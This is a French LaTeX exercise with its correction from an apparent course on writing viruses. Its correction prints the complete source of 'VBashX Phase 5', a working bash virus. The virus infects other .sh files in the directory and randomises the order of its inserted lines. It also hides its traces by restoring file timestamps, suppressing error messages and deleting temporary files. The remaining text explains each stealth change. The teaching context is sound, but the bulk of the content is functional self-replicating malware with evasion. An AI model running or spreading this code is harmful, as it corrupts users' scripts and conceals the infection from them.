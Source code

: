 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{5c)}] \textbf{Suppression des erreurs :} Ajouter \texttt{2>/dev/null} sur les commandes critiques (\texttt{grep}, \texttt{tail}, \texttt{cp}). Quelles erreurs cela masque-t-il ?
\end{enumerate}

\begin{correction}

Le virus complet Phase 5 intègre les 3 techniques de furtivité au code de Phase 4 :
\begin{lstlisting}[title=vbashx\_phase5.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 5 --- VBX_7k9Pz
REST_SIZE=13
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
trap "rm -f $TMP .vbx_ref_*" EXIT
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP
exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f" 2>/dev/null)" ]; then #@4#
cp -p "$f" ".vbx_ref_$$" 2>/dev/null #@5#
REST_S=13; LI_S=16; VS=$(($REST_S + $LI_S)) #@6#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" 2>/dev/null #@7#
r=$(( ($RANDOM % 16) + 1 )) #@8#
n=1 #@9#
while [ $n -le $LI_S ]; do #@10#
grep "#@${r}#" "$SRC" >> "$f" 2>/dev/null #@11#
r=$(( ($r * 3) % 17 )) #@12#
n=$(($n + 1)); done #@13#
touch -r ".vbx_ref_$$" "$f" 2>/dev/null #@14#
rm -f ".vbx_ref_$$" 2>/dev/null #@15#
fi; fi; done #@16#
\end{lstlisting}

\textbf{Modifications par rapport à Phase 4 :}
\begin{itemize}
    \item \textbf{Ligne 8 :} \texttt{trap} pour le nettoyage automatique à la sortie (5b)
    \item \textbf{Lignes taguées \#@4\#, \#@5\#, \#@7\#, \#@11\# :} ajout de \texttt{2>/dev/null} pour masquer les erreurs (5c)
    \item \textbf{Ligne \#@5\# :} \texttt{cp -p} pour sauvegarder les attributs du fichier original (5a)
    \item \textbf{Ligne \#@14\# :} \texttt{touch -r} pour restaurer les horodatages après infection (5a)
    \item \textbf{Ligne \#@15\# :} nettoyage du fichier de référence après restauration des timestamps
\end{itemize}

\textbf{5c)} Le \texttt{2>/dev/null} masque les erreurs suivantes :
\begin{itemize}
    \item \texttt{grep} : erreur si le fichier n'existe pas ou n'est pas lisible
    \item \texttt{cp/tail} : erreur sur les permissions insuffisantes
    \item \texttt{touch} : erreur si le fichier de référence a été supprimé
\end{itemize}


\end{correction}
\end{exercice}
\end{document}
